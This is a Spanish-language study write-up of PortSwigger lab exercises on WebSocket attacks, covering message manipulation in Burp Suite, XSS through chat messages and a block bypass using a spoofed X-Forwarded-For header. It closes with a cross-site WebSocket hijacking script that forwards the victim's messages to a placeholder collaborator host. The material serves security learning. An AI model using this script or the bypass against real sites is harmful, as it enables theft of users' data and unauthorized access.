

# 🎃 Port Swigger

## Web Sockets

Los **WebSockets** son ampliamente utilizados en aplicaciones web modernas. Se inician a través de HTTP y permiten conexiones de larga duración con comunicación asincrónica en ambas direcciones.

### Usos comunes de los WebSockets

* Realizar acciones de usuario.
* Transmitir información sensible.

### Riesgos asociados

Cualquier vulnerabilidad de seguridad web que pueda surgir con HTTP también puede manifestarse en las comunicaciones mediante WebSockets. Esto incluye:

* Filtración de datos sensibles.
* Exposición a ataques similares a los presentes en las solicitudes HTTP regulares.

<figure><figcaption></figcaption></figure>

## Manipulación del tráfico WebSocket

Identificar vulnerabilidades de seguridad en **WebSockets** generalmente implica manipularlos de maneras que la aplicación no espera. Esto se puede lograr utilizando herramientas como **Burp Suite**.

### Acciones posibles con Burp Suite

* **Interceptar y modificar mensajes WebSocket.**
* **Reproducir y generar nuevos mensajes WebSocket.**
* **Manipular conexiones WebSocket.**

## Interceptar y modificar mensajes WebSocket

Puedes utilizar **Burp Proxy** para interceptar y modificar mensajes WebSocket siguiendo estos pasos:

1. **Abrir el navegador de Burp.**
2. Navega a la función de la aplicación que utiliza WebSockets. Puedes confirmar que se están utilizando WebSockets revisando las entradas que aparecen en la pestaña de historial de WebSockets dentro de Burp Proxy.
3. En la pestaña **Intercept** de Burp Proxy, asegúrate de que la interceptación esté activada.
4. Cuando se envíe un mensaje WebSocket desde el navegador o servidor, este se mostrará en la pestaña **Intercept** para que lo puedas ver o modificar.
5. Presiona el botón **Forward** para enviar el mensaje modificado.

### Nota

Puedes configurar si los mensajes **cliente-servidor** o **servidor-cliente** serán interceptados en Burp Proxy. Esto se hace en el diálogo de **Settings**, dentro de la configuración de reglas de interceptación para WebSocket.

## Repetir y generar nuevos mensajes WebSocket

Además de interceptar y modificar mensajes WebSocket sobre la marcha, también puedes repetir mensajes individuales y generar nuevos mensajes. Esto se puede hacer usando **Burp Repeater**:

1. En **Burp Proxy**, selecciona un mensaje en el historial de WebSockets o en la pestaña **Intercept**, y elige "Send to Repeater" desde el menú contextual.
2. En **Burp Repeater**, ahora puedes editar el mensaje seleccionado y enviarlo repetidamente.
3. Puedes ingresar un nuevo mensaje y enviarlo en cualquiera de las dos direcciones, al cliente o al servidor.
4. En el panel **History** dentro de **Burp Repeater**, puedes ver el historial de los mensajes que han sido transmitidos a través de la conexión WebSocket. Esto incluye los mensajes generados en **Burp Repeater**, así como los que fueron generados por el navegador o servidor mediante la misma conexión.
5. Si deseas editar y reenviar cualquier mensaje en el panel de historial, puedes hacerlo seleccionando el mensaje y eligiendo "Edit and resend" desde el menú contextual.

## Manipulación de conexiones WebSocket

Además de manipular los mensajes WebSocket, a veces es necesario manipular el **handshake** (proceso de establecimiento) de WebSocket que establece la conexión.

Existen varias situaciones en las que manipular el **handshake** de WebSocket puede ser necesario:

* Permite acceder a una mayor superficie de ataque.
* Algunos ataques pueden causar que tu conexión se caiga, por lo que necesitarás establecer una nueva.
* Los tokens u otros datos en la solicitud original del handshake pueden estar obsoletos y necesitar actualización.

## Manipulación de conexiones WebSocket - Continuación

Puedes manipular el **handshake** de WebSocket utilizando **Burp Repeater**:

1. Envía un mensaje WebSocket a Burp Repeater como ya se describió.
2. En Burp Repeater, haz clic en el icono del lápiz junto a la URL de WebSocket. Esto abrirá un asistente que te permite adjuntarte a un WebSocket conectado existente, clonar un WebSocket conectado o reconectar a un WebSocket desconectado.
3. Si eliges clonar un WebSocket conectado o reconectar a un WebSocket desconectado, el asistente mostrará los detalles completos de la solicitud del **handshake** de WebSocket, los cuales podrás editar según sea necesario antes de que se realice el handshake.
4. Al hacer clic en "Connect", Burp intentará realizar el handshake configurado y mostrará el resultado. Si se establece correctamente una nueva conexión WebSocket, podrás usarla para enviar nuevos mensajes en Burp Repeater.

## Vulnerabilidades de seguridad en WebSockets

En principio, prácticamente cualquier vulnerabilidad de seguridad web podría surgir en relación con WebSockets:

* **Entrada proporcionada por el usuario** transmitida al servidor podría ser procesada de maneras inseguras, lo que llevaría a vulnerabilidades como **inyección SQL** o **inyección de entidades externas XML**.
* Algunas vulnerabilidades ciegas alcanzadas a través de WebSockets podrían ser detectadas solo utilizando técnicas fuera de banda (OAST).
* Si los datos controlados por un atacante son transmitidos a otros usuarios de la aplicación a través de WebSockets, esto podría llevar a **XSS** u otras vulnerabilidades del lado del cliente.

## Manipulación de mensajes de WebSocket para explotar vulnerabilidades

La mayoría de las vulnerabilidades basadas en entrada que afectan a WebSockets pueden ser encontradas y explotadas manipulando el contenido de los mensajes de WebSocket.

Por ejemplo, supongamos que una aplicación de chat usa WebSockets para enviar mensajes de chat entre el navegador y el servidor. Cuando un usuario escribe un mensaje de chat, se envía un mensaje WebSocket como el siguiente al servidor:

```json
{"message":"Hola Carlos"}
```

El contenido del mensaje se transmite (nuevamente a través de WebSockets) a otro usuario de chat y se muestra en el navegador del usuario de la siguiente manera:

```html
<td>Hola Carlos</td>
```

En esta situación, si no se realizan otros procesamientos de entrada o defensas, un atacante podría llevar a cabo un ataque de **XSS** de prueba de concepto enviando el siguiente mensaje WebSocket:

```json
{"message":""}
```

#### EJEMPLO PRÁCTICO




<figure><figcaption></figcaption></figure>

_Podemos ver que tenemos un chat con un ajente._

<figure><figcaption></figcaption></figure>

_Hemos hecho alguna solicitud pero no podemos ver nada en el HTTP history..._

<figure><figcaption></figcaption></figure>

_En cambio en web socketes hisotry podemos ver muchas peticiones..._

<figure><figcaption></figcaption></figure>

_Podemos encontrar un mensaje que hemos enviado anteriormente..._

<figure><figcaption></figcaption></figure>

_Le enviamos este payload de XSS_ ``

<figure><figcaption></figcaption></figure>

_Buscamos la request en el WebSockets history_

<figure><figcaption></figcaption></figure>

_Ponemos nuestra inyección._

<figure><figcaption></figcaption></figure>

_Ahora enviamos el mensaje con la inyección._

<figure><figcaption></figcaption></figure>

_Ahora vamos a agregar la inyección en la solicitud interceptada._

<figure><figcaption></figcaption></figure>

_Se aplica la XSS_

## Manipulación del apretón de manos de WebSocket para explotar vulnerabilidades

Algunas vulnerabilidades de WebSocket solo pueden ser encontradas y explotadas manipulando el apretón de manos de WebSocket. Estas vulnerabilidades suelen implicar fallos de diseño, como:

* **Confianza mal ubicada en los encabezados HTTP** para tomar decisiones de seguridad, como el encabezado X-Forwarded-For.
* **Fallos en los mecanismos de manejo de sesiones**, ya que el contexto de sesión en el que se procesan los mensajes de WebSocket generalmente está determinado por el contexto de sesión del mensaje de apretón de manos.
* **Superficie de ataque introducida por encabezados HTTP personalizados** utilizados por la aplicación.

#### EJEMPLO PRÁCTICO



<figure><figcaption></figcaption></figure>

_Volvemos a tener un web chat._

<figure><figcaption></figcaption></figure>

_Enviamos un mensaje y lo interceptamos._

<figure><figcaption></figcaption></figure>

_Lo mandamos al repeater._

<figure><figcaption></figcaption></figure>

_Podemos ver que ha sido detectado._

<figure><figcaption></figcaption></figure>

_Podemos ver que nos han bloqueado_

<figure><figcaption></figcaption></figure>

_Argegamos lo siguiente:_

```
`X-Forwarded-For: 1.1.1.1`
```

<figure><figcaption></figcaption></figure>

_Podemos ver que nos han desbloqueado._

<figure><figcaption></figcaption></figure>

_Ahora le agregamos el siguiente payload y se acontece la inyección_

```

```

## Uso de WebSockets entre sitios para explotar vulnerabilidades

Algunas vulnerabilidades de seguridad en WebSockets surgen cuando un atacante realiza una conexión WebSocket entre dominios desde un sitio web que controla. Esto se conoce como un **ataque de secuestro de WebSocket entre sitios**, y consiste en explotar una vulnerabilidad de **falsificación de solicitud entre sitios (CSRF)** en el apretón de manos de WebSocket. El ataque a menudo tiene un impacto serio, ya que permite al atacante realizar acciones privilegiadas en nombre del usuario víctima o capturar datos sensibles a los que el usuario víctima tiene acceso.

## ¿Qué es el secuestro de WebSocket entre sitios?

El **secuestro de WebSocket entre sitios** (también conocido como **secuestro de WebSocket de origen cruzado**) involucra una vulnerabilidad de **falsificación de solicitud entre sitios (CSRF)** en el apretón de manos de WebSocket. Surge cuando la solicitud de apretón de manos de WebSocket depende únicamente de las cookies HTTP para el manejo de sesiones y no contiene tokens CSRF u otros valores impredecibles.

Un atacante puede crear una página web maliciosa en su propio dominio que establezca una conexión WebSocket entre sitios con la aplicación vulnerable. La aplicación manejará la conexión en el contexto de la sesión del usuario víctima con la aplicación.

La página del atacante puede luego enviar mensajes arbitrarios al servidor a través de la conexión y leer el contenido de los mensajes que se reciben de vuelta del servidor. Esto significa que, a diferencia de un CSRF normal, el atacante gana una interacción bidireccional con la aplicación comprometida.

## ¿Cuál es el impacto del secuestro de WebSocket entre sitios?

Un ataque exitoso de secuestro de WebSocket entre sitios a menudo permitirá a un atacante:

* **Realizar acciones no autorizadas haciéndose pasar por el usuario víctima**. Al igual que con la CSRF regular, el atacante puede enviar mensajes arbitrarios a la aplicación del servidor. Si la aplicación utiliza mensajes generados por el cliente de WebSocket para realizar cualquier acción sensible, entonces el atacante puede generar mensajes adecuados entre dominios y activar esas acciones.
* **Recuperar datos sensibles a los que el usuario puede acceder**. A diferencia de la CSRF regular, el secuestro de WebSocket entre sitios le da al atacante una interacción bidireccional con la aplicación vulnerable a través del WebSocket secuestrado. Si la aplicación utiliza mensajes generados por el servidor para devolver datos sensibles al usuario, el atacante puede interceptar esos mensajes y capturar los datos del usuario víctima.

## Realizando un ataque de secuestro de WebSocket entre sitios

Dado que un ataque de secuestro de WebSocket entre sitios es esencialmente una vulnerabilidad CSRF en un apretón de manos (handshake) de WebSocket, el primer paso para realizar un ataque es revisar los apretón de manos de WebSocket que realiza la aplicación y determinar si están protegidos contra CSRF.

En términos de las condiciones normales para los ataques CSRF, generalmente necesitas encontrar un mensaje de apretón de manos que dependa únicamente de las cookies HTTP para el manejo de la sesión y no emplee tokens u otros valores impredecibles en los parámetros de la solicitud.

## Realizando un ataque de secuestro de WebSocket entre sitios - Continuación

Por ejemplo, la siguiente solicitud de apretón de manos WebSocket probablemente sea vulnerable a CSRF, porque el único token de sesión se transmite en una cookie:

```r
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

**Nota**\
El encabezado `Sec-WebSocket-Key` contiene un valor aleatorio para prevenir errores de proxies en caché, y no se utiliza para autenticación o manejo de sesiones.

## Realizando un ataque de secuestro de WebSocket entre sitios - Continuación

Si la solicitud de apretón de manos WebSocket es vulnerable a CSRF, entonces la página web del atacante puede realizar una solicitud entre sitios para abrir un WebSocket en el sitio vulnerable. Lo que suceda a continuación en el ataque depende completamente de la lógica de la aplicación y de cómo esté utilizando WebSockets. El ataque puede implicar:

* Enviar mensajes WebSocket para realizar acciones no autorizadas en nombre del usuario víctima.
* Enviar mensajes WebSocket para recuperar datos sensibles.
* A veces, simplemente esperar a que lleguen mensajes entrantes que contengan datos sensibles.

#### EJEMPLO PRÁCTICO



<figure><figcaption></figcaption></figure>

**Sabemos que es vulnerable:**

1. Podemos ver en la cookie que no está definida en el mismo sitio.
2. El endpoint de en este caso un chat es vulnerable a CSRF
3. Y si respondemos al mensaje de ready podemos ver todo el historial del chat.

<figure><figcaption></figcaption></figure>

_Podemos ver que tenemos un chat disponible._

<figure><figcaption></figcaption></figure>

_Podemos ver que tiene un endpoint en /chat y no vemos protección contra CSRF_

<figure><figcaption></figcaption></figure>

_Podemos ver toda la comunicación de WebSockets_

<figure><figcaption></figcaption></figure>

_Enviamos la petición al Repeater y podemos ver que podemos toda la comunicación._

```js
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

_Ahora tenemos este Script que es el que se encarga de facilitarnos los mensajes de la víctima._
